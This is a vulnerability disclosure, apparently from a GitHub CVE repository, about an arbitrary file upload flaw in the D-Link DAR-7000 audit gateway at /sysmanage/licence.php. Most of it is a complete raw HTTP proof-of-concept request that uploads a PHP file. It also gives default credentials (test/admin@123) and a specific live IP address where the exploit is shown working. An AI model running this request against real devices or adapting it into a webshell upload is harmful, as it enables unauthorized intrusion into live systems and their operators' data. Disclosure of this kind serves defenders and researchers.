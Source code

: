 The D-LINK DAR-7000 series online behavior audit gateway has a file upload vulnerability. Attackers can exploit vulnerabilities to gain server privileges or cause business impact on the system.

official： http://www.dlink.com.cn/

version:DAR-7000

Vulnerability Path ：/sysmanage/licence.php

Ip：https://60.22.74.195:8443/

Default account password: test/ admin@123

poc:
```
POST /sysmanage/licence.php? HTTP/1.1
Host: 
Cookie: PHPSESSID=26a1775947167e57a44ae5a532938679
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; Trident/7.0; rv:11.0) like Gecko
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------42328904123665875270630079328
Content-Length: 714
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="ck"

radhttp
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="file_upload"; filename="phpinfo.php"
Content-Type: application/octet-stream

<?php phpinfo()?>
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="hid_tftp_ip"


-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="hid_ftp_ip"


-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="mode"

set
-----------------------------42328904123665875270630079328—

```
<img width="728" alt="图片" src="https://github.com/llixixi/cve/assets/144869546/9cd9947c-a851-45b5-b4de-9a5442912f2f">

https://60.22.74.195:8443/home/upload/phpinfo.php

<img width="712" alt="图片" src="https://github.com/llixixi/cve/assets/144869546/0fd3a389-dd5e-4524-bf37-b261c990a6fc">

